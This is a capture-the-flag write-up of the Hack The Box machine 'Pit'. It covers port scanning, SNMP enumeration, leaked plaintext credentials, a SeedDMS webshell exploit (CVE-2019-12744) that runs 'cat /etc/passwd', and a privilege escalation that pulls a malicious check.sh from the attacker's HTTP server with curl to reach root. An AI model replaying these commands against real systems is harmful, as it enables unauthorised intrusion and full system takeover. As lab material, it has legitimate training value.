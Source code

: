 # [Pit](https://app.hackthebox.com/machines/pit)

```bash
nmap -p-  --min-rate 10000 10.10.10.241 -Pn
```
![Alt text](img/image.png)


After knowing open ports (22,80,9090), we can do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,9090 10.10.10.241 -Pn
```

![Alt text](img/image-2.png)

I also do UDP scan for my target.

```bash
nmap -p- -sU  --min-rate 10000 10.10.10.241 -Pn
```

Due to scan results, we see that 'pit.htb' and 'dms-pit.htb' FQDN s are automatically resolved for this ip address.

![Alt text](img/image-1.png)



I just see that port 161 (snmp) is open, that's why let's enumerate SNMP server via `snmpwalk` command.

```bash
snmpbulkwalk -Cr1000 -c public -v2c 10.10.10.241
```

Another enumeration script, I got from [here](https://github.com/dheiland-r7/snmp)

![Alt text](img/image-4.png)


I got specific endpoint called '/var/www/html/seeddms51x/seeddms
', let's access here from HTTP.

![Alt text](img/image-3.png)


That's possible for 'dms-pit.htb'

![Alt text](img/image-5.png)


From this results, I also grab sensitive credentials.

![Alt text](img/image-6.png)


michelle: michelle (to login dms-pit)

![Alt text](img/image-7.png)


I just searched publicly known exploits.

I find RCE that called [CVE-2019-12744](https://www.exploit-db.com/exploits/47022)

First, we create our malicious php webshell.

![Alt text](img/image-8.png)

Now, I need to add document .


![Alt text](img/image-9.png)


My document_id is 29.


Now, it's time to do RCE , we need to do browsing this page.

```bash
URL=>  http://dms-pit.htb/seeddms51x/data/1048576/29/1.php?cmd=cat /etc/passwd
```

![Alt text](img/image-10.png)


Then I found sensitive file via browsing below url.

![Alt text](img/image-11.png)


From source page, I find sensitive credentials.

![Alt text](img/image-12.png)


seeddms: ied^ieY6xoquu


I use this credentials to login into 'pit.htb:9090' application.

But, password is worked , not username.

For this part, michell: ied^ieY6xoquu credentials worked.

![Alt text](img/image-13.png)



There is '**Terminal**' section, let's access here.

user.txt

![Alt text](img/image-14.png)


If we back to our SNMP enumeration, there is file called '/usr/bin/monitor'

![Alt text](img/image-15.png)

If I add my privilege escalation script into '**/usr/local/monitoring**' directory, I can be root.


Now, I wrote malicious `check.sh` script as below.

![Alt text](img/image-16.png)



Let's upload this malicious script into machine.

```bash
python3 -m http.server --bind 10.10.16.8 8080
```

![Alt text](img/image-18.png)

Let's download this file from our http server.

```bash
curl http://10.10.16.8:8080/check.sh -o check.sh
```

After downloading, for working of this script, I need to copy this into '/usr/local/monitoring' directory.

```bash
cp check.sh /usr/local/monitoring
```

![Alt text](img/image-17.png)

Also need to walk SNMP.
```bash
snmpwalk -m +MY-MIB -v2c -c public 10.10.10.241 nsExtendObjects
```


Now , we can login via our private key (id_rsa) into machine.

```bash
ssh -i /root/.ssh/id_rsa root@10.10.10.241 
```

root.txt

![Alt text](img/image-19.png)